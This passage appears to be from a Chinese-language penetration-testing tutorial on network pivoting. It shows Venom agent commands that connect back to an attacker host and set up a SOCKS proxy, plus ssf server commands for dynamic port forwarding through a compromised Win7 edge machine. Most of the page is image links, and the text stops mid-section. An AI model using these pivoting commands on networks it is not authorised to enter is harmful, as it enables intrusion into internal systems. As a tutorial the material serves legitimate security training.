 ![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTUltvHmDKeF3hwyicz0bwoLQibLlx2mLnccIbbBaYGoLuxt6BiabI0kTAQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTLt3rRv77odTE7rAicu8Lr0j85N87qu8N7wgLg6h0XyZK9e3rXJRgz4g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTtHGlibiaY5DpfrOzib1cWNdYia2X7jsu9fS9u6GCib2lSWOyLGbq0sNfwJg/640?wx_fmt=png)

**0x04 Venom**  

攻击机器上执行

```
agent.exe -rhost 192.168.10.3 -rport 9999
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTFtUzK3ZH5xPc46bds3DKK81RquUiaDzdsic0EAmzfeywobg1yl8sOSHg/640?wx_fmt=png)

边缘机器（win7）执行  

```
goto 1
socks 6666
```

```
ssfd.exe ‐p 1333
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTUib4vB5Bkw87DqxYMIWicZ9BnGF8JGcddcwBYnBYQXZZu6B4l3eIyHog/640?wx_fmt=png)

攻击机查看反弹成功  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTwujqoBZmr2nyIa8oIxiamP0aSibicC7Kq0IBs7ZaefOuKS8lndjNiaQZXw/640?wx_fmt=png)

执行命令  

```
ssfd.exe ‐D 1222 ‐p 1333 192.168.10.15
```

```
ssfd.exe ‐p 1234
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTnfZIRY2VC6GxkQhibNfWcA7OoBcTzbTics8zErsicpff2aoNA5IOKaPzw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTdEp3tUiblfUZDz1mRazb1T5bZOBVAYFwGplZXfIhHXaiaz5vJ9oMuQdw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfT6BZgQs8Th7jgMkjicR1kLURHZShEw9sAnPnBHdX45osghECkxUhpWSw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7e0BCnbapD3HN7JXoGcRCfTaleM4kzwdclDEkY20CWf3oQo1wpzMy1nEQR7OfveRrm3lT4REn8TGw/640?wx_fmt=png)

**0x05 ssf**

1. 正向连接

把 certs 文件夹和 ssfd 上传到边缘机器
